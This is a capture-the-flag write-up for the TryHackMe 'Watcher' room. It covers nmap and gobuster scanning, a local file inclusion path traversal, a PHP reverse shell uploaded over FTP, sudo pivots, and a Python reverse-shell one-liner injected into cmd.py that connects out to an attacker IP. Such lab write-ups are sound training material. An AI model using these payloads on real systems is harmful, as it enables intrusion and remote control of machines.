

# Watcher TryHackMe Writeup

>Room link : https://tryhackme.com/room/watcher


## __First flag__

So as usual I stated with nmap.


```
# Nmap 7.91 scan initiated Sun Feb 21 18:23:14 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.239.73
Warning: 10.10.239.73 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.239.73
Host is up, received syn-ack (0.16s latency).
Scanned at 2021-02-21 18:23:15 IST for 1494s
Not shown: 64971 closed ports, 561 filtered ports
Reason: 64971 conn-refused and 561 no-responses
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7hN8ixZsMzRUvaZjiBUrqtngTVOcdko2FRpRMT0D/LTRm8x8SvtI5a52C/adoiNNreQO5/DOW8k5uxY1Rtx/HGvci9fdbplPz7RLtt+Mc9pgGHj0ZEm/X0AfhBF0P3Uwf3paiqCqeDcG1HHVceFUKpDt0YcBeiG1JJ5LZpRxqAyd0jOJsC1FBNBPZAtUA11KOEvxbg5j6pEL1rmbjwGKUVxM8HIgSuU6R6anZxTrpUPvcho9W5F3+JSxl/E+vF9f51HtIQcXaldiTNhfwLsklPcunDw7Yo9IqhqlORDrM7biQOtUnanwGZLFX7kfQL28r9HbEwpAHxdScXDFmu5wR
|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBmjWU4CISIz0mdwq6ObddQ3+hBuOm49wam2XHUdUaJkZHf4tOqzl+HVz107toZIXKn1ui58hl9+6ojTnJ6jN/Y=
|   256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHb7zsrJYdPY9eb0sx8CvMphZyxajGuvbDShGXOV9MDX
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Jekyll v4.1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corkplacemats
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Hence open ports are 

*  21 (FTP)
*  22
*  80

Hence I first visited port 80.


I fired up gobuster .

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.239.73/
[+] Threads:        20
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     json,js,txt,html,php
[+] Timeout:        10s
===============================================================
2021/02/21 18:24:10 Starting gobuster
===============================================================
/index.php (Status: 200)
/images (Status: 301)
/post.php (Status: 200)
/css (Status: 301)
/robots.txt (Status: 200)
/bunch.php (Status: 200)
/round.php (Status: 200)
/server-status (Status: 403)
```

Hence first I visited robots.txt. 


Hence first flag is found.


## __Second Flag__


Hence when I clicked the products in the website I found that the parameter **post** might be vulnerable.


So there was a possibility of **LFI** .And I tried /etc/passwd and it worked.


So I tried the second entry in the robots.txt . 


So we get ftp username and pass.


We get flag_2.txt and we see that files directory doesn't contain anything , but interesting part is it is writeable.


## __Flag 3__


Hence I uploaded a reverse shell in ftp files directory.


Since it is in the folder **/home/ftpuser/ftp/files/shell.php** , we can use LFI to access it.


> http://10.10.222.19/post.php?post=../../../../../home/ftpuser/ftp/files/shell.php


Hence we get a shell. And we can find flag 3.


## __Flag 4__


When I tried sudo -l I got


So we can get to user toby using

> sudo -u toby /bin/bash

And we get flag4 .


## __Flag 5__


There is a folder called jobs and it contains a shell script file called **cow.sh**

```shell
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```
Now let's add bash reverse shell and comment out the cp command.


Hence we get a shell and the fifth flag.


## __Flag 6__

So here was also a note.txt


Hence in the scripts dir we can see two python files.

**cmd.py** and **will_script.py**

will_script.py :

```python
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```

cmd.py :

```python
def get_command(num):
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```

Hence I added in cmd.py before the function

> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.74.96",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);


Hence if we run

> sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py *

And we get shell and flag 6.


## __Flag 7 (the root flag)__

So when I used id command I got this 

```shell
will@watcher:~$ id 
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)
```
So I tried 

> find / -type f -group adm 2>>/dev/null


So this shows maybe this is a ssh-key and the b64 suggests it that it is base64 encoded.





And as expected it is ssh private key so saved it as id_rsa and chmod 600 id_rsa.


> ssh -i id_rsa root@\<vpn-ip>


